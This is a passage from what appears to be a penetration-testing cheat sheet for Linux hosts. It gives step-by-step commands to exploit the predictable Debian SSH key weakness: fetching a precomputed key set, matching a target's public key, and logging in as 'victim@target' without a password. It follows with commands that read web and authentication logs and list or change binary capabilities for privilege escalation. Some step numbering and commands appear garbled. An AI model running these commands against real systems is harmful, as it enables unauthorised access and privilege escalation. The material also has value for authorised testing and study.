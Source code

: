 #### Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

#### `git clone https://github.com/g0tmi1k/debian-ssh` `cd debian-ssh` `` `tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2` ``

#### 3. Grab the first 20 or 30 bytes from the key file shown above starting with the "AAAA..." portion and grep the unpacked keys with it as:

#### `grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'` `dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub`

#### 5. IF SUCCESSFUL, this will return a file (68b329da9893e34099c7d8ad5cb9c940-17934.pub) public file. To use the private key file to connect, drop the '.pub' extension and do:

#### `ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934` \`\`

#### And you should connect without requiring a password. If stuck, the -vvv verbosity should provide enough details as to why.

log files\\

#### `cat /etc/httpd/logs/access_log` `cat /etc/httpd/logs/access.log` `cat /etc/httpd/logs/error_log` `cat /etc/httpd/logs/error.log` `cat /var/log/apache2/access_log` `cat /var/log/apache2/access.log` `cat /var/log/apache2/error_log` `cat /var/log/apache2/error.log` `cat /var/log/apache/access_log` `cat /var/log/apache/access.log` `cat /var/log/auth.log` `cat /var/log/chttp.log`

Capabilities\\

### <mark style="color:red;">List capabilities of binaries</mark>

#### `/usr/bin/getcap -r /usr/bin`

#### <mark style="color:green;">Edit capabilities</mark>

#### `/usr/bin/setcap -r /bin/ping # remove` `/usr/bin/setcap cap_net_raw+p /bin/ping # add`

#### Interesting capabilities Having the capability =ep means the binary has all the capabilities.

#### `$ getcap openssl /usr/bin/openssl` `openssl=ep`
